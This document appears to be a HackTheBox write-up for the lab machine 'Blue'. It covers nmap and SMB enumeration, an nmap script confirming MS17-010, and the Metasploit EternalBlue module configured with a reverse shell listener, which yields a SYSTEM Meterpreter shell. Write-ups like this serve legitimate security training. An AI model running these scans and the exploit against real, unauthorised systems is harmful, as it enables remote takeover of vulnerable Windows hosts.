


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.40 |  | [Blue](https://app.hackthebox.com/machines/blue) |  |

---
## Enumeration
### Nmap Scan
Perform an initial scan to enumerate open ports and services:

```shell
nmap -p- --min-rate=1000 -sV 10.10.10.40
```

**Output:**

```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### SMB enumeration:

```
smbclient -N -L \\\\10.10.10.40\\
```

**Output:**

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
Share           Disk      
Users           Disk
```  

Shares returned `Access Denied` or default content.

### Vulnerability Check

```
sudo nmap -vv -p 445 --script=smb-vuln* --script-args=unsafe=1 10.10.10.40
```

**Output:**

```
PORT    STATE SERVICE      REASON
445/tcp open  microsoft-ds syn-ack ttl 127

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

## EternalBlue Exploitation (MS17-010)
EternalBlue exploits a critical vulnerability in SMBv1, enabling remote code execution with SYSTEM privileges. 

### Exploit Using Metasploit
Execute the EternalBlue exploit module:

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST tun0
set LPORT 443
run
```



Gained a Meterpreter shell as NT AUTHORITY\SYSTEM.



User and root flag are located in haris' and Administrator Desktop respectively.